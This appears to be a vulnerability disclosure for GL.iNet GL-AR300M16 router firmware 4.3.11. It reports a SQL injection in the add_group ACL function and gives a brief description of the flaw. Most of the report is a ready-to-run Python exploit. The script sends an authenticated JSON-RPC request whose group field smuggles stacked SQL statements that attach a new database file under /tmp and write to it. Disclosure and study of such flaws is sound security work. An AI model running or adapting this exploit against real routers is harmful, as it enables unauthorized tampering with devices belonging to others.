

Submittion Date: 2025.4.18  
Vendor: GL-AR300M16  
Version: 4.3.11   
Firmware: openwrt-ar300m16-4.3.11
Download Link: https://dl.gl-inet.cn/router/ar300m16/stable  

The function add_group handles critical database access control operations through unsafe SQL query construction and execution, which leads to a SQL injection vulnerability.
The function uses string.format() to build SQL CREATE TABLE statements with user-controlled input, then executes them via sqlite3.exec() calls without proper parameterization or sanitization.




Exploit the vulnerability by sending a carefully constructed HTTP request

```
import requests
import json

# Target URL (Note: the URL needs to be adjusted according to the actual situation)
url = "http://192.168.2.10/rpc"

#Request headers (exactly match the headers in burpsuite)
headers = {
    "Host": "192.168.2.10",
    "Content-Length": "247",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "Accept": "application/json, text/plain, */*",
    "Content-Type": "application/json",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36",
    "Origin": "http://192.168.2.10",
    "Referer": "http://192.168.2.10/",
    "Accept-Encoding": "gzip, deflate, br",
    "Cookie": "VgVrSQU46rSHNLscF8rZ97VsLAuCduKS", #The cookie needs to be modified according to the current admin token
    "Connection": "keep-alive"
}

#Request body (json-rpc command injection payload)
data = {
    "jsonrpc": "2.0",
    "method": "call",
    "params": [
        "VgVrSQU46rSHNLscF8rZ97VsLAuCduKS",
        "acl",
        "add_group",
        {
            "group": "hack_test4 (a); ATTACH DATABASE '/tmp/pwn_4' AS pwn; CREATE TABLE pwn.msg (txt text); INSERT INTO pwn.msg VALUES ('SUCCESS'); --"
        }
    ]
}

#Send post request
try:
    response = requests.post(
        url,
        headers=headers,
        json=data,
        verify=False  
    )
    

    print(f"状态码: {response.status_code}")
    print("响应头:")
    print(response.headers)
    print("\n响应体:")
    print(response.text)
    
except requests.exceptions.RequestException as e:
    print(f"error: {e}")
```

The exploitation is shown below.


